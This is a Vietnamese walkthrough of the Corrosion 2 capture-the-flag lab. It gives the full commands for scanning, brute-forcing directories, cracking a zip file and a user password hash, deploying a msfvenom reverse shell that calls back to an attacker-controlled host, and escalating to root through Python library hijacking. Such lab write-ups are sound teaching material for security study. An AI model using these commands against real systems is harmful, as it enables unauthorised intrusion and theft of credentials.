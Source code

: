 # Corrosion 2
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```

![](images/1.png)

**Target IP: 192.168.169.140**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.140```

![](images/2.png)

+ Port 22: SSH
+ Port 80: HTTP(Apache Server)
+ Port 8080: HTTP(Tomcat Server)

### Enumeration

Thử truy cập vào Apache server port 80 chỉ hiện thị defaul Apache page. 

![](images/3.png)

Tiếp theo chuyển tới Tomcat server port 8080 

![](images/4.png)

Tiếp theo thực hiện directory brute force

```ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.169.140/FUZZ -e .php,.zip,.txt ```

![](images/5.png)

Brute force các thư mục con nhưng không tìm được gì , tiếp theo chuyển sang port 8080

```ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.169.140:8080/FUZZ -e .php,.zip,.txt ```

![](images/6.png)

Tìm thấy file backup.zip có thể truy cập.Tải file về 
```wget http://192.168.169.140:8080/backup.zip ``` 

Thử unzip nhưng được bảo vệ bởi mật khẩu

![](images/7.png)

Sử dụng john the ripper crack mật khẩu

```sh
zip2john backup.zip > zip_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

![](images/8.png)

```unzip backup.zip -d ./backup```

![](images/9.png)

Kiểm tra file tomcat-users.xml

```cat tomcat-users.xml```

![](images/10.png)

**Finding: admin:melehifokivai**


### Exploitation

Sử dụng tài khoản trên để login vào Tomcat Manager thấy cho upload file và deploy

![](images/11.png)

+ option 1: upload reverse shell thủ công
Tạo một .war file bằng msfvenom

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.169.137 LPORT=5555 -f war > rvshell.war```

![](images/12.png)

Sau khi file được tạo thì tải lên thông qua GUI của Tomcat Manager 

![](images/13.png)

```nc -lvnp 5555```

![](images/14.png)

update shell and discover

![](images/15.png)

Tìm được 2 file user.txt và note.txt

Thử đăng nhập tài khoản jaye và randy bằng mật khẩu của admin

![](images/16.png)

Sau khi đăng nhập chỉ có thể đăng nhập jaye tìm thấy một file look như trên

![](images/17.png)

Lệnh từ GTFOBins(một kho lưu trữ trực tuyến chứa danh sách các nhị phân Unix (binaries) mà có thể bị khai thác bởi kẻ tấn công để thực hiện các hành động không được phép trên hệ thống), sử dụng look command để xem password hash của user randy.

![](images/18.png)

Lưu hash vào file hash.txt và sử dụng john để crack password

```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

![](images/19.png)

+ **Cracked Password:** ```07051986randy```

Sau khi đăng nhập tài khoản randy, sử dụng sudo -l kiểm tra những lệnh có thể chạy với quyền sudo

![](images/20.png)

Xem file ```randombase64.py``` thấy import module base64. Khả năng xảy ra python library hijacking.

![](images/21.png)

Chỉnh sửa file và chèn lệnh ```os.system('/bin/bash')``` để spawn một root shell

![](images/22.png)

![](images/23.png)

Đạt được quyền root

+ option 2: khai thác bằng metasploit

Search exploits

![](images/24.png)

![](images/25.png)

![](images/26.png)

Tiếp theo làm giống option 1 để đạt được quyền root